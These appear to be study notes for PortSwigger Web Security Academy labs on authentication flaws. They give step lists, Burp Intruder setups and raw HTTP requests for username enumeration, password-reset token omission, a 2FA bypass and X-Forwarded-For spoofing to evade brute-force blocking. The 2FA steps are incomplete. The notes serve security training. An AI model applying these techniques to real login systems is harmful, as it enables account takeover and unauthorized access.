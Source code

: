 # Authentication vulnerabilities

## Username enumeration via different responses

Use Intruder with username and pw as sniper targets

## 2FA simple bypass

1. Login as `wiener:peter`
1. Use portswigger e-mail to login with 2FA
1. capture e-mail change request into repeater
1. logout
1. login as `carlos:montoya`
1. copy session token from the new session
1. insert session token in the prev. captured request to change the e-mail
1. insert wrong code and login again as carlos
1. recieve 2FA code via e-mail
1. ???
1. Profit

##  Password reset broken logic

The `temp-forgot-password` parameter is not checked, so we can just send a
request in carlos' name

``` 
POST /forgot-password/?temp-forgot-password-token HTTP/2
Host: 0a3c00e903fa9e9980fe764f00c60058.web-security-academy.net
Cookie: session=ET1xcusj0lhDr3wWMSd1qCOcQLItAXnW
[...]

temp-forgot-password-token&username=carlos&new-password-1=bla&new-password-2=bla
```

## Username enumeration via response timing

- Login takes longer for valid users.
- there is a Brute force prevention in place.
  - `X-Forwarded-For:§1§` header can be used to evade this.

Use Intruder with Pitchfork:

- **Parameter 1 `X-Forwarded-For:§1§`**: Numbers 1-100
- **Parameter 2 `Username=§2§`**: Username list

We find that `ec2-user` is valid. Now we can do the same again with the PW list.

Final Payload:

```
POST /login HTTP/2
Host: 0a7e00bc04419db78499a2da00be0045.web-security-academy.net
Cookie: session=4MtRH2xLQGE0NrFKaQvHcOVy38p2Fdx0
X-Forwarded-For:§1§

username=ec2-user&password=§dadadaaaaaaaaaaaaaaaaaaaaaa1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111a
```

## Broken brute-force protection, IP block

The flaw in this Lab is that the request counter gets reset after each
successful login. --> We can test one combination and then login with the
provided credentials.

Prepare two lists
- **Users:** `carlos` and `wiener` turn by turn (100x)
- **Passwords:** `entry from PW list` and `peter` switching each time.

How to do that quickly in vim:

```
# Userlist
100i carlos<CR>wiener<ESC>
:%y+

# Within PW list
gg
qq
o peter<ESC>j
q
200@q
:%y+
```

In the Intruder Settings set the max concurrent Payloads to 1 and a delay of  
`300 ms`.


